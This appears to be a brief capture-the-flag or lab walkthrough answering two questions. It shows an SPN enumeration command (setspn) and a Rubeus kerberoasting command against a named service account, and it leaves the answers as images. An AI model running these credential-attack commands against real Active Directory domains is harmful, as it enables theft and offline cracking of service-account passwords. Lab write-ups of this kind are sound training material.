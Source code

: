 # Content

- [Content](#content)
  - [Question 1](#question-1)
    - [The way to hack](#the-way-to-hack)
    - [Answer](#answer)
  - [Question 2](#question-2)
    - [The way to hack](#the-way-to-hack-1)
    - [Answer](#answer-1)
  
## Question 1

### The way to hack

- I run comand.
- Payload:
  - `setspn.exe -Q */*`
  ![Picture](../../Image/Cooking%20with%20Fire/9.png)

### Answer

![Picture](../../Image/Cooking%20with%20Fire/10.png)

## Question 2

### The way to hack

- I use command.
- Payload:
  - .\Rubeus.exe kerberoast /user:svc_vmwaresso /nowrap
  ![Picture](../../Image/Cooking%20with%20Fire/11.png)

### Answer

![Picture](../../Image/Cooking%20with%20Fire/12.png)